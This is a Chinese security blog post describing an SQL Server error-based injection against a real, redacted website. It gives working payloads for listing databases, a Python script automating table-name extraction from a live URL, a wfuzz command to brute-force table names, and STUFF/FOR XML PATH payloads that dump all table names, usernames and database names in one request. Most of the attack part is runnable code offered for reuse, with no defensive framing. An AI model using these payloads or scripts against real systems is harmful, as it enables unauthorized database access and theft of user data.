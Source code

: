 ```yaml
---
date: "2020-03-02T00:00:00Z"
description: 某次**，发现一处SQL Server注入点
title: SQL Server注入 - STUFF与XML Path
url: /archivers/2020-03-02/3
---
```


## 背景

某次XX，发现一处SQL Server注入点

## 报错注入

SQL Server注入，一般也是先找库、再找表、再查字段、最终查询数据。

## 查库

1.查第一个：

```sql
id=1 and (SELECT top 1 Name FROM Master..SysDatabases)>0 --
```

2.NOT IN

```sql
id=1 and (SELECT top 1 Name FROM Master..SysDatabases where name not in ('master'))>0 --
```

其中，NOT IN的集合会不断增加，最终无法查出其他结果，那么这个集合就是所有的数据库名称。

## 查表

在这一步，我们就可以自动化实现了：

```python
import requests
import re

table_list = ['']

def get_sqlserver_table(table_list, table_num):
    for num in range(0,table_num):
        # print("','".join(table_list))
        sql_str = "and (select top 1 name from [xxxx].sys.all_objects where type='U' AND is_ms_shipped=0 and name not in ('{}'))>0".format("','".join(table_list))
        url = "http://www.xxxxx.cn/x.aspx?cid=1' {} AND 'aNmV'='aNmV".format(sql_str)
        r = requests.get(url, headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.87 Safari/537.36'})
        res = re.search(r'\'(.*)\'', r.content.decode('utf-8'),  re.M|re.I)
        table_name = str(res.group(1))
        table_list.append(table_name)
        print("[{}] - TableName: {}".format(str(r.status_code), table_name))
if __name__ == "__main__":
    get_sqlserver_table(table_list, 16)

```

当取得第16个的时候，还是没有出现用户表、管理员表等，而且网站抛出了错误，无法继续取，突然没有其他办法了。

![2020-03-01-11-34-21](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/d60590ed04ec4d3da6e917429c7cc4d4.png)


先来分析一下语句：

```sql
cid =1 and (select top 1 name from [数据库名称].sys.all_objects where type='U' AND is_ms_shipped=0 and name not in (''))>0 AND 'aNmV'='aNmV
```

这是第一次请求的Payload，集合这里我写个空，不管怎样，集合都可以取得第一个表名。第二个、第三个表名都会向集合增加，以此类推，通过SQLMAP判断，有146个表。

到第16个因为原始语句有干扰，不能继续取得后续的表名，但我不想放弃。

于是，又想到通过FUZZ的方式：

![2020-03-01-11-34-39](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/835850cccf61c6d461e1fa9e4bede6bc.png)


```
wfuzz -c -z file,/usr/shar/sqlmap/data/common-table.txt --sc 500 "http://www.xxx/xxx?cid=1%27%20and%20%20(select%20top%201%20COLUMN_NAME%20from%20xxx.information_schema.columns%20where%20TABLE_NAME=%27Hsoft_FUZZ%27%20and%20COLUMN_NAME%20not%20in(%27x%27))%3E0%20and%20%27s%27=%27s"
```

- `Hsoft_` 为前缀
- sc 500 只匹配错误页面（报错注入）

但是字典貌似不够强大，我就去查询SQL Server有没有类似将多行数据合并为一行的办法。


我知道MySQL中有GroupConcat类似的函数，但SQL Server没有，这点很遗憾~ 没有继续使用SQL Map是因为SQLMAP根本无法取得任何一个表名，期间我也分析了SQL MAP的Payload，请求实在是多，就放弃了这条线。


## STUFF与XML Path

STUFF字符串函数是将字符串插入到另一个字符串中。它会删除开始位置第一个字符串中的指定长度的字符，然后将第二个字符串插入到开始位置的第一个字符串中，语法如下。

```sql
STUFF（<character_expression>，<开始>，<长度>，<character_expression>）
<character_expression>
```

参数是给定的字符串数据，可以是字符或二进制数据的常量，变量或列。`<start>`参数是一个整数值，指定开始删除和插入的位置，可以是BIGINT类型。如果`<开始>`或`<长度>`参数为负数，则返回NULL字符串。如果`<start>`参数比第一个`<character_expression>`长，则返回一个NULL字符串。 <length>参数可以是BIGINT类型，它是一个整数，指定要删除的字符数。如果<length>比第一个`<character_expression>`长，则删除发生到最后一个`<character_expression>`中的最后一个字符。


STUFF最常见的用途莫过于结合FOR XML PATH对返回JSON字符串的拼接。首先利用FOR XML PATH则返回XML格式的字符串，我们将FOR XML PATH添加到查询的末尾，此时允许我们将查询的结果作为XML元素输出，元素名称包含在PATH参数中。

如：

```sql
SELECT name FROM dbo.base_pay_type WHERE is_enabled = 1
```

类似的SQL可能会返回多行数据，因此可以通过STUFF与XML PATH集合使用：


- 将查询到的数据转换成行，以逗号隔开，以`[]`包裹


```sql
SELECT STUFF((SELECT  '[' + name + '],'  
FROM(SELECT name FROM dbo.base_pay_type WHERE is_enabled = 1) a  FOR  XML PATH('')  ), 1,0, '') AS Name 
```

![2020-03-01-11-35-00](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/7fadd9802ea0134308ad9c8e3e1fa7eb.png)

直接套用到注入场景：

```sql
SELECT STUFF((SELECT  '[' + name + '],'  FROM(SELECT name from 数据库名称.sys.all_objects where type='U' AND is_ms_shipped=0) a  FOR  XML PATH('')  ), 1,0, '')
```


在sql shell中直接执行即可返回所有表名：

![2020-03-01-11-35-15](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/f1db9589f0c703b6ff101490ab00b90e.png)

所有表名以`[表名],`分割。

通过这个办法，我们可以套用很多需要多次请求注入的需求，如：

- 取得某个表10个用户名

```sql
SELECT STUFF((SELECT  '[' + username + '],'  FROM(SELECT Top 10 username from 数据库名称.User ) a  FOR  XML PATH('')  ), 1,0, '')
```

- 取得所有数据库名

```sql
SELECT STUFF((SELECT  '[' + Name + '],'  FROM(SELECT  Name from Master..SysDatabases ) a  FOR  XML PATH('')  ), 1,0, '')
```

其他场景自行想象！
